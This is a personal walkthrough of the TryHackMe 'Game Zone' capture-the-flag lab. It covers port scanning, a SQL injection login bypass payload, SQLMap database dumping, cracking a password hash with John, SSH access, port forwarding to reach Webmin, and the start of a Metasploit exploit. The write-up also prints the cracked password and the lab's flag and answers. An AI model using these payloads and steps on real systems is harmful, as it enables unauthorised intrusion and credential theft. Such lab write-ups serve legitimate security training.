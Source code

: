 [TryHackMe \| Game Zone](https://tryhackme.com/room/gamezone)

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

---
Let begin with an Nmap scan to start this penetration test of
```
nmap -p- -T5 ip_address
```

While that runs, i checked the ip address in a browser to see if there is a webserver running, and there is in fact on running on port 80 and i see that there is an ssh on port 22
![[Pasted image 20251020191653.png]]

# Webserver Port 80
![[Pasted image 20251020191719.png]]

Seems to be a game themed webpage of the game Hitman, and the first question asks for the name of the character displayed 

Since i have played this game a lot, i already know the name of this character

***Task 1 Answer: Agent 47***

---
# Understanding SQL

so basically SQL is the language used to communicate to the SQL databases which most of webserver utilized to store their data on.

## Basic SQL Queries
```
SELECT * FROM users WHERE username = :username AND password := password
```

Tryhackme explain that if we input our username and password in the credential field on the website and it utilizes the above SQL query then that itself is a vulnerability which can be exploited

## Exploiting SQL using SQL Injection (Basic)

```sql
' or 1=1 -- - 
```

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

![[Pasted image 20251020192501.png]]
We gain access and authenticate once we hit enter 
![[Pasted image 20251020192528.png]]

***We get redirected to the portal.php***

---
# Using SQLMap

This is an automatic SQL Injection and Database Takeover tool, it can be downloaded [GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap)
and comes preinstall on kali linux

1. We need to point the SQLMap tool to a input field 
2. We need to intercept the request with BurpSuite

![[Pasted image 20251020193317.png]]

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.
![[Pasted image 20251020193413.png]]

- -r uses the intercepted request you saved earlier
- --dbms tells SQLMap what type of database management system it is
- --dump attempts to outputs the entire database

![[Pasted image 20251020193516.png]]

After SQLMAP Finishes 
![[Pasted image 20251020195149.png]]

## In the users table, what is the hashed password?
```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 
```

## What was the username associated with the hashed password?
```

```

## What was the other table name?
```
post
```

---
# Cracking Password with JohnTheRipper

John is a powerful opensource tool also installed on kali Linux, with the ability to crack hashes, similar to hashcat

```bash
john hash.txt --wordlists=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![[Pasted image 20251020195754.png]]

The plaintext password is: videogamer124 

---
# Gaining Access via SSH

We now have a username and password, lets try and login to the SSH port service we identified earlier using the below command
```
ssh agent47@ip_address
```

![[Pasted image 20251020200137.png]]

***What is the user flag? 649ac17b1480ac13ef1e4fa579dac95c***

---
# Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

## Using ss to investigate sockets running on a host
We will use a tool called ss to investigate sockets running on a host.

If we run ss -tulpn it will tell us what socket connections are running
```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q          Local Address:Port                         Peer Address:Port              
udp    UNCONN     0      0                           *:68                                      *:*                  
udp    UNCONN     0      0                           *:10000                                   *:*                  
tcp    LISTEN     0      80                  127.0.0.1:3306                                    *:*                  
tcp    LISTEN     0      128                         *:10000                                   *:*                  
tcp    LISTEN     0      128                         *:22                                      *:*                  
tcp    LISTEN     0      128                        :::80                                     :::*                  
tcp    LISTEN     0      128                        :::22                                     :::*
```

## Viewing a blocked service using port forward

From our Local attacker machine, run the following: 

```
ssh -L 10000:localhost:10000 <username>@<ip>
```

We have notice in the IP tables above that the port 1000 is blocked by a firewall, we can then forward this traffic to our server that we own

Now we browse to localhost:10000
![[Pasted image 20251020201309.png]]

### The name of the exposed CMS is: webmin

## Finding the CMS Version with Nmap Port Forward Scan
```
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap localhost -p10000 -sV -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-20 20:19 +04
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000032s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.32 seconds

```

- Since we have forwarded all traffic of port 10000, we can now perform an nmap scan on this port from out machine 

### What is the CMS Version
```
1.580 
```

---
# PrivEsc with Metasploit 
Since we have the CMS version, lets look for an exploit on metasploit

1. Search for the webmin 1.580 in MSFConsole
![[Pasted image 20251020202548.png]]
2. Set the options
![[Pasted image 20251020202854.png]]
3. Set the Payload and Exploit
![[Pasted image 20251020202929.png]]


